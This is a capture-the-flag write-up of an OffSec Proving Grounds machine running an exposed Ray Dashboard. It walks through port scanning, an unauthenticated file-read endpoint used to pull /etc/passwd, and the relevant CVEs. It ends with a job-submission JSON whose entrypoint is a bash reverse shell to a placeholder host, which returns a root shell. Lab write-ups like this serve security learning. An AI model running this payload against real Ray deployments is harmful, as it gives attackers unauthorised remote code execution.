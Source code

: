```yaml
---
title: CTF-200-06 (OffSec. Proving Grounds)
description: Write-up of CTF-200-06 Machine
date: 2023-12-29 09:00:00 -3000
categories: [proving grounds]
tags: [ray dashboard, CVE, insecure input validation, linux]
author: trace

---
```



## Enumeration:

```bash
nmap -sC -sV <IP>
```

```bash
rustscan -a 
```

![rustscanresult.png](../../assets/writeups/2023-12-27-CTF-200-06/rustscanresult.png)

quite a few ports open but it was just mainly port `22`, `9000`, & `52365`

#### Port 52365:

This had some `/log` file directory which had the same log as which i found later on in ray dashboard logs

#### Port 9000:

Port `9000` was running [Ray Dashboard](https://docs.ray.io/en/latest/ray-observability/getting-started.html) which is a web-based dashboard for monitoring and debugging Ray applications. The visual representation of the system state, allows users to track the performance of applications and troubleshoot issues.

![port9000.png](../../assets/writeups/2023-12-27-CTF-200-06/port9000.png)

then i visited `Logs` section of the dashboard in order to find something which can come in handy,

```xml
agent-424238335.err
agent-424238335.out
dashboard.err
dashboard.log
dashboard_agent.log
debug_state.txt
debug_state_gcs.txt
events/
gcs_server.err
gcs_server.out
job-driver-Bishop_Fox_00001.log
log_monitor.err
log_monitor.log
monitor.err
monitor.log
monitor.out
old/
python-core-driver-01000000ffffffffffffffffffffffffffffffffffffffffffffffff_1425.log
python-core-driver-02000000ffffffffffffffffffffffffffffffffffffffffffffffff_1713.log
python-core-driver-03000000ffffffffffffffffffffffffffffffffffffffffffffffff_1645.log
python-core-worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572_1728.log
python-core-worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4_3913.log
python-core-worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661_1730.log
raylet.err
raylet.out
runtime_env_agent.log
runtime_env_setup-02000000.log
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.err
worker-63da3aaab00807e34fa09389d49d535de3a4dd09388cd9a002c59572-ffffffff-1728.out
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.err
worker-e39c5ba7728abce11978e4c5f262510de64e0146e07583dbe6173bd4-02000000-3913.out
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.err
worker-f003cfbbb1a3f94fbb9eecbe2f4f2ec41a4896c9587eae431f792661-ffffffff-1730.out
```

had tons of log files but i didn't find anything worth mentioning, so next I proceeded with looking for Potential Vulnerability in the Web Application running itself And I found it had [CVE-2023-48023,](https://nvd.nist.gov/vuln/detail/CVE-2023-48023) a remote code execution (RCE) vulnerability tied to missing authentication for a critical function; [CVE-2023-48022](https://www.cve.org/CVERecord?id=CVE-2023-48022), a server-side request forgery vulnerability in the Ray Dashboard API that enables RCE; and [CVE-2023-6021,](https://nvd.nist.gov/vuln/detail/CVE-2023-6021) an insecure input validation error that also enables a remote attacker to execute malicious code on an affected system.

## Getting Root:

An insecure input validation is present in the Ray Dashboard’s `/api/v0/logs/file` API endpoint. The endpoint accepts arbitrary filesystem paths and does not require authentication, only connectivity to the Ray Dashboard port (8265 by default). The vulnerability was exploited to obtain the SSH private key used by Ray to authenticate to all other nodes in the associated cluster.


To trigger the vulnerability, a valid `node_id` value was required. A `node_id` could be obtained in the Cluster section of the Ray Dashboard web app in the ID column of the Node List section. In the figure below, the ID of the head node


![nodefound.png](../../assets/writeups/2023-12-27-CTF-200-06/nodefound.png)

I obtained the node ID calling the Dashboard API `/nodes?view=summary`, there's an easy way to do it do is just look at the dashboard and you will find it

Once you have a valid `node_id` value included in the request, the Ray Dashboard API returns the content of any file accessible to the account the web application server is running as. For example, in response to a `curl` command, the API returns the content of the server’s `/etc/passwd` file, as you can see:

![etcpasswd.png](../../assets/writeups/2023-12-27-CTF-200-06/etcpasswd.png)

So, As stated in the blog post i mentioned above the researcher said that in a **typical AWS cloud install, one can find a bootstrap config file in the home directory of the ray user. This bootstrap config file contains various details such as the cluster settings, including the full filesystem path where an SSH key is stored.**

but that's the not the case here unfortunately i was able to retrieve the user private ssh key since every user was set to nologin :shrug: idk why?! maybe there's some other way where they need people to get in via webshell or something but anyways



I later on via this method got the `/usr/bin/python3 /opt/server-ml.py`

```python
import ray
import time
import os
import fcntl
import socket
import struct


def get_ip_addr(interface: str) -> str:
    # took it from https://gist.github.com/EONRaider/3b7a8ca433538dc52b09099c0ea92745
    """
    Uses the Linux SIOCGIFADDR ioctl to find the IP address associated
    with a network interface, given the name of that interface, e.g.
    "eth0". Only works on GNU/Linux distributions.
    Source: https://bit.ly/3dROGBN
    Returns:
        The IP address in quad-dotted notation of four decimal integers.
    """
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        packed_iface = struct.pack('256s', interface.encode('utf_8'))
        packed_addr = fcntl.ioctl(sock.fileno(), 0x8915, packed_iface)[20:24]
        return socket.inet_ntoa(packed_addr)
    except Exception as e:
        print(f"An exception occurred while trying to get the ip addr: {e}")
        pass


curr_ip_addr = get_ip_addr("ens160")
#print(curr_ip_addr)

if curr_ip_addr.startswith("172."):
    # wait till it gets the correct ip addr
    while not curr_ip_addr.startswith("192."):
        curr_ip_addr = get_ip_addr("ens160")

time.sleep(3)

ray.init(dashboard_host="0.0.0.0", include_dashboard=True, dashboard_port=9000)

# ray dashboard is tied to the script life-cycle:)
while True:
    time.sleep(1)
```




lol, i didn't find it that interesting so i just moved ahead with a different approach and try to get the root shell


[Protect AI published a MetaSploit Framework module that exploits this technique along with their disclosure](https://github.com/protectai/ai-exploits/blob/main/ray/msfmodules/ray_job_rce.py), although they did not call out the lack of authentication as a vulnerability. Researcher Bryce Bearchell independently submitted two reports to Protect AI’s huntr platform (https://huntr.com/bounties/787a07c0-5535-469f-8c53-3efa4e5717c7/ and https://huntr.com/bounties/b507a6a0-c61a-4508-9101-fceb572b0385/) during the same time period that Bishop Fox reported the issue directly to Anyscale. However, the reports were closed based on Anyscale’s position that the behavior is by design, and therefore should not be perceived as a vulnerability.


The Ray Jobs Python SDK can also be used to execute code remotely without authentication. The arbitrary command execution is obtained by crafting a malicious Python script using the Ray API to submit a task and then calling this malicious script in the entrypoint parameter of the `JobSubmissionClient` object.
Also, the Ray Client API – exposed on TCP port `10001` by default – was vulnerable to unauthenticated remote code execution via a very similar technique but sadly we don't have it so i dropped that idea and went ahead with the different approach,


And this was pretty direct method of exploitation discovered is to submit arbitrary operating system commands for execution via the job submission API using a raw HTTP request or the Ray Jobs Python SDK. These do not require authentication in the default configuration, and are accessible remotely to any system with access to the Ray Dashboard (TCP port 8265 by default).


So now we craft a JSON job submission to execute the Linux shell command to get a reverse shell using `bash -i >& /dev/tcp/your_ip/your_port 0>&1`, sending the malicious JSON file to the jobs API, and then retrieving the output of the executed command like this:

![reverseshelljson.png](../../assets/writeups/2023-12-27-CTF-200-06/reverseshelljson.png)

> cat_passwd.json:

```json
{
  "entrypoint": "bash -c 'bash -i >& /dev/tcp/your_ip/your_port 0>&1'",
  "submission_id": "wtf",
  "runtime_env": {},
  "metadata": {},
  "entrypoint_num_cpus": 1,
  "entrypoint_num_gpus": 0,
  "entrypoint_resources": {}
}
```

and then we get a callback and we manage to pop a shell as root user

![gotrootshell.png](../../assets/writeups/2023-12-27-CTF-200-06/gotrootshell.png)


